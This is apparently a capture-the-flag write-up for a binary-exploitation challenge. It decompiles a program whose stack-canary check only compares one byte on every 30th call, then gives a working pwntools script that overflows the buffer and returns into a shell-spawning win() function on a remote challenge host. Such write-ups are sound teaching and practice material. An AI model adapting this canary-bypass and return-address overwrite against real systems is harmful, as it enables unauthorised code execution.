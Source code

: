 # Analyzing the binary # 

## checksec ## 

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

## source code ##

Loading up the `chall` binary in ghidra, we see the following functions: 

The **main()** function seems to do an infinite loop, allowing us to either exit completely or call the **submit_code()** function. 

```c
undefined8 main(void)
{
  bool bVar1;
  int iVar2;
  long in_FS_OFFSET;
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  bVar1 = true;
  while (bVar1) {
    menu();
    fgets(local_38,0x20,stdin);
    iVar2 = atoi(local_38);
    if (iVar2 == 1) {
      submit_code();
    }
    else if (iVar2 == 2) {
      bVar1 = false;
    }
  }
  DuckCounter = DuckCounter + 1;
  if ((DuckCounter & 0x1f) == 0x1e) {
    if ((char)*(undefined8 *)(in_FS_OFFSET + 0x28) != (char)local_10) goto LAB_0040137c;
  }
  else if (*(long *)(in_FS_OFFSET + 0x28) != local_10) {
LAB_0040137c:
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Next is the **submit_code()** function. Every time this function is called, it increases a global counter called `DuckCounter`. For some reason, this function has two different paths for the stack cookie check.

```c

void submit_code(void)
{
  long in_FS_OFFSET;
  char local_218 [520];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("Please enter your code. Elon will review it for length.\n");
  fgets(local_218,0x228,stdin);
  DuckCounter = DuckCounter + 1;
  if ((DuckCounter & 0x1f) == 0x1e) {
    if ((char)*(undefined8 *)(in_FS_OFFSET + 0x28) != (char)local_10) goto LAB_00401209;
  }
  else if (*(long *)(in_FS_OFFSET + 0x28) != local_10) {
LAB_00401209:
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Lastly, we notice that there is a **win()** function that simply drops us into a shell. 

```c
void win(void)
{
  system("/bin/sh");
  return;
}
```

# Exploitation #

Its safe to assume from the naming of this challenge that we can somehow bypass the stack cookie check and overwrite saved rip on the stack with the address of win(). 

We noticed that in **submit_code()** there were two different cookie checks. Let's look at those a little bit closer. 

Normally, the following cookie check is done: 

```c
(*(long *)(in_FS_OFFSET + 0x28) != local_10)
```

However, when the following condition is met:

```c
((DuckCounter & 0x1f) == 0x1e)
```

We instead use the other check: 

```c
((char)*(undefined8 *)(in_FS_OFFSET + 0x28) != (char)local_10)
```

In other words: if DuckCounter equals 30 (or 0x1e), we execute the last check. 

Notice that the second check casts the stack cookie to a char, and the first check casts it to a long. 

The 'bug' here is that when casting the stack cookie to just a char, it will only use the least significant byte instead of the full 8 bytes. 

Stack cookies conveniently always end with a nullbyte, which means that this second check only checks the last nullbyte. 

Therefore, we should be able to bypass the stack cookie check by:
- calling **submit_code()** 29 times
- calling **submit_code()** overflowing the long local_10;, overwriting the stack cookie with all nullbytes, bypassing the stack cookie check and then overwrite saved rip with the address of **win()**

# Exploit # 

```python
#!/usr/bin/env python3 
from pwn import *

r = process("./chall")
r = remote("pwn.chall.pwnoh.io", 13386)
e = ELF("./chall")

# call submit_code 29 times
for i in range(0, 29):
    r.sendlineafter(b"2. Get fired\n", b"1")
    r.sendlineafter(b"length.\n", b"AAAA")
    #r.interactive()

pause()
r.sendlineafter(b"2. Get fired\n", b"1")

ret = ROP(e).find_gadget(["ret"]).address
payload = b"A"*520 + b"\x00" * 8 + b"C" * 8 + p64(ret) + p64(e.symbols['win'])
r.sendlineafter(b"length.\n", payload)

r.interactive()
```